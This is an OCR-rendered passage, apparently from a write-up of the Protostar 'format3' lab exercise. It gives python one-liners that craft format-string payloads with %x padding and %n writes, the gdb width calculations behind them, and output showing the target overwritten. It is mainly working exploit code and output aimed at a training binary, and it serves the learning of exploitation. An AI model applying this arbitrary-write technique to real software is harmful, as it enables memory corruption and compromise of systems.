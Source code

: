 ```
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf5\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"\xf7\x96\x04\x08" + 
**"%52x%12$n"** +          **# Adding Width = 52** 
**"%17x%13$n"** +          **# Adding Width = 17**
"%14$n" + 
"%15$n"' 
| /opt/protostar/bin/format3����                                                   0         bffff590
target is 5555**5544** :( **[Width Calculation #3: "f6"]
____________________________________________________________________****(gdb) print 0x02 - 0x55**
  $9 = -83*# Holdup... Negative output? Obviously, we cannot use this negative padding. In this case, however, there is a trick that we overflow into the next byte to get our desired value on the target location. Since we have a control on stack, we can still overwrite the overflowed value. Example below:***(gdb) print 0x102 - 0x55**
  $10 = **173****>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf5\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"\xf7\x96\x04\x08" + 
**"%52x%12$n"** +          **# Adding Width = 52** 
**"%17x%13$n"** +          **# Adding Width = 17**
**"%173x%14$n"** +         **# Adding Width = 173**
"%15$n"' 
| /opt/protostar/bin/format3����                                                   0         bffff590                                                                                                                                                                     b7fd7ff4
target is 02**025544** :( **[Width Calculation #4: "f7"]
____________________________________________________________________****(gdb) p 0x01 - 0x02**
  $11 = -1*# Same thing***(gdb) p 0x101 - 0x02**
  $12 = **255****>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf5\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"\xf7\x96\x04\x08" + 
**"%52x%12$n"** +          **# Adding Width = 52** 
**"%17x%13$n"** +          **# Adding Width = 17**
**"%173x%14$n"** +         **# Adding Width = 173**
**"%255x%15$n"**'          **# Adding Width = 255**
| /opt/protostar/bin/format3����                                                   0         bffff590                                                                                                                                                                     b7fd7ff4                                                                                                                                                                                                                                                              0
**you have modified the target :)    <-- Winning Statement!**
```

